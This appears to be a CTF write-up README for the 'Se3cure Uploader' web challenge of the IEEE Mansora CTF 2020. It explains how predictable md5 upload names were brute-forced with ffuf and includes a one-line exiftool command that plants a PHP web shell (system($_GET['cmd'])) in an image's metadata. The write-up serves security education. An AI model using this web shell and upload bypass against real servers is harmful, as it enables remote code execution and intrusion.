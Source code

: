 # IEEE-_CTF
This repo contain writeups for IEEE Mansora Branch CTF 2020.
Produced to by Champion Team. 
We got the **4th place** with 494 points only 3 points to the 3rd place, enjoy.

## Web
### Se3cure Uploader
#### Discription
We've released our new open source file uploading service, do
your things and find out if there are any security gaps. Source
code is attached, demo can be found
at http://165.227.140.251/s3cure_uploader To be more secure,
and for testing purposes we're deleting the uploaded files every 3
mins. flag file can be found at flag.php.
Challenge Points : 200
(![challenge](https://www4.0zz0.com/2020/09/29/22/474349029.jpg))

#### Dive into Challenge
When I finished reading the description , I found that is file upload challenge ,so all what I have is to upload picture or file and execute commands to read flag.php file. 
when i tired to upload jpg picutre it returns the path to it ,but the name of the file is **hashed** with .jpg extention.
so I tried to upload .php file ,it returns **invalid type**.
(![upload](https://www5.0zz0.com/2020/09/29/22/704605433.png))
(![invalid type] (https://www5.0zz0.com/2020/09/29/22/447975091.png))

#### Source code analysis 
So first, I downloaded the source code , began to analysis it carefully.
As shown in the below picture of upload.php
(![source](https://www8.0zz0.com/2020/09/29/22/273265710.jpg))


From analyzing , I found the following:
-	After uploading the file it will be saved in the uploads directory
-	The server saves with different name from its original name.
-	There is validation on the size and type of file that must be an image.
So I started to run the source code locally on my laptop and try to solve it.

From source code I found that naming the file have the following procedure:
1.	Generate random number from 1 to 1000
2.	Concatenate the random number with the current time in format y-m-d min-sec
3.	Concatenate to them the file original name without extension.
4.	Apply md5 hashing method to the previous combination.
5.	concatenate to the output hash the extension of the file.

In the upload image challenges there are 2 things you need to check:
- upload image with php code successfuly. 
- path to access it.

#### Solution Process
I made some modification to print the time and random number as shown from that i found that the time of response + 3h will return the time required ,but this is was in my local server only in the challenge server there is no constant hours to add.
(![local server](https://www8.0zz0.com/2020/09/29/22/978549807.png))

so now we have one variable in the name generated hash function is the random value.
here i tried to upload image with php code injected to my local server and check if i can get it. 
I found that the server saved it with new hash name and can be accessed ,but the server don't show the name .

So, All what i have to do is :
1. Inject picture with php code to get rce. 
2. rename it to image.jpg.php.
3. take the date in response.
4. generate 1000 possible hash names.
5. use a tool like intruder in burp and give it the names to return the correct one to you.
6. finally execute your commands.

To inject php I used exiftoo with this command:
`exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' test5.jpg`
Then rename it to : test5.jpg.php.
I uploaeded it and get the response date and give to a script I wrote for this challenge you can get it in the repo. 
Now I have file with 1000 possible hash names, I tried to give it to the intruder and start it, but it didn't work because intruder take long time and the server was deleting the files every **3 Minutes** .

In this point I talked to my teammates for a help. my teammate **Mohammed Saleh** told me to use a great tool called FUFF.
You can get it from ([here](https://github.com/ffuf/ffuf)).

WoW it worked !!!
(![FUFF](https://www11.0zz0.com/2020/09/29/23/841804976.png))

So now I have the path , let's get the flag.
I tried to put the parameter cmd=ls to list the contents of the folder.
(![before flag](https://www13.0zz0.com/2020/09/29/23/931832642.png))

Let's take step before this directory.
(![before flag2](https://www5.0zz0.com/2020/09/29/23/161437722.png))

After showing the flag it return blank page so, I showed the source page and We got the flag successfuly.
(![flag](https://www5.0zz0.com/2020/09/29/23/525548868.png))



